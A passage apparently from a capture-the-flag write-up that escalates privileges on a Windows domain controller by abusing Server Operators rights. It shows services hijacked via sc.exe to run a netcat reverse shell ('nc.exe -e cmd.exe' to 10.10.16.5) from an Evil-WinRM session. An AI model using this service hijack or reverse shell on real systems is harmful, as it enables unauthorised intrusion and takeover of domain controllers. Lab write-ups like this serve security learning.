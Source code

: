 ```console
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

> **Reference**: [Windows Built-in Users, Groups, Identities](https://ss64.com/nt/syntax-security_groups.html)
>
> ![image-20240312054918214](./Return.assets/image-20240312054918214.png)
>
> Server Operators Group is a built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.
>
> On Windows, you can use `sc.exe` to control services. **The idea is**: to stop a particular service, configure it with customized comands, and then restart the service to execute cutomized commands.

1. Enumerate services: `VSS`

```console
*Evil-WinRM* PS C:\programdata> services

Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
C:\programdata\nc.exe -e cmd.exe 10.10.16.5 6666                                                                           True ProfSvc
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
C:\programdata\nc.exe -e cmd.exe 10.10.16.5 6666                                                                           True VSS
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend
```